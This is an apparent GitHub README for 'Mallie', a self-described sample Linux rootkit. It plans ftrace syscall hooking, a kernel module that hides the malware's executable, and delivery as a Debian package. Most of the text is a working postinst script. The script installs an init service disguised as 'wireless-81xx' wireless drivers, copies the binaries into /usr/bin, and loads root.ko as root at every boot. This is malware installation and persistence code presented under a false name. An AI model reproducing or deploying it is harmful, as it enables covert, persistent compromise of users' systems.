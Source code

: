 # Mallie
Sample linux rootkit.

## TODO
- curl a url
- ~~get syscall table~~ use ftrace instead (no need find syscall table)
- hook a syscall with ftrace instead of modifying kernel memory
- package everything into a debian package
- use of mallie executable to curl and mallie.ko lkm to hide mallie executable

## Issues
- stdlib is not available for kernel modules, may need another executable

## Resources
- Create deb package: https://www.internalpointers.com/post/build-binary-deb-package-practical-guide
- Make install script in the deb package using DEBIAN/preinstall same as the DEBIAN/control file

## Auto-Start on Boot Script
1) chmod 755 to the postinst script.

2) Once that is done create a symbolic link in the run level directory you would like to use, for example if you wanted to run a program in the graphical runlevel 2, the default runlevel for Ubuntu, you would place it in the /etc/rc2.d directory. You just cannot place it the directory, you must signify when it will run by indicating the startup with an “S” and the execution order is important. Place it after everything else that is in the directory by giving it a higher number. If the last script to be run is rc.local and it is named S99rc.local then you need to add your script as S99myscript. Symbolic link: `ln -s /etc/init.d/myscript /etc/rc3.d/S99myscript`

```bash

#!/bin/bash
# This `DEBIAN/postinst` script is run post-installation

echo '#!/bin/bash' > /etc/init.d/wireless-81xx
echo '
### BEGIN INIT INFO
# Provides:          mallie
# Required-Start:    $local_fs $network
# Required-Stop:     $local_fs
# Default-Start:     2 3 4 5
# Default-Stop:      0 1 6
# Short-Description: Wireless service
# Description: Autostart wireless drivers
### END INIT INFO

# Carry out specific functions when asked to by the system
case "$1" in
  start)
    echo "Starting..."
    su - root -c "cd /usr/bin/ && insmod ./root.ko"
    ;;
  stop)
    echo "Stopping..."
    sleep 2
    ;;
  *)
    echo "Usage: /etc/init.d/wireless-81xx {start|stop}"
    exit 1
    ;;
esac

exit 0 ' >> /etc/init.d/wireless-81xx

chmod 755 /etc/init.d/wireless-81xx
cp /usr/local/bin/mallie /usr/bin/
cp /usr/local/bin/root.ko /usr/bin/
ln -s /etc/init.d/wireless-81xx /etc/rc3.d/S01wireless-81xx
sh /etc/init.d/wireless-81xx start

```

/etc/init.d/wireless-81xx
```bash
#! /bin/bash

### BEGIN INIT INFO
# Provides:          mallie
# Required-Start:    $local_fs $network
# Required-Stop:     $local_fs
# Default-Start:     2 3 4 5
# Default-Stop:      0 1 6
# Short-Description: Wireless service
# Description: Autostart wireless drivers
### END INIT INFO

# Carry out specific functions when asked to by the system
case "$1" in
  start)
    echo "Starting..."
    su - root -c "cd /usr/bin/ && insmod ./root.ko"
    ;;
  stop)
    echo "Stopping..."
    sleep 2
    ;;
  *)
    echo "Usage: /etc/init.d/wireless-81xx {start|stop}"
    exit 1
    ;;
esac

exit 0

```

## Credits
https://askubuntu.com/questions/290099/how-to-run-a-script-during-boot-as-root <br>
https://gist.github.com/drmalex07/298ab26c06ecf401f66c <br>
https://github.com/xcellerator/linux_kernel_hacking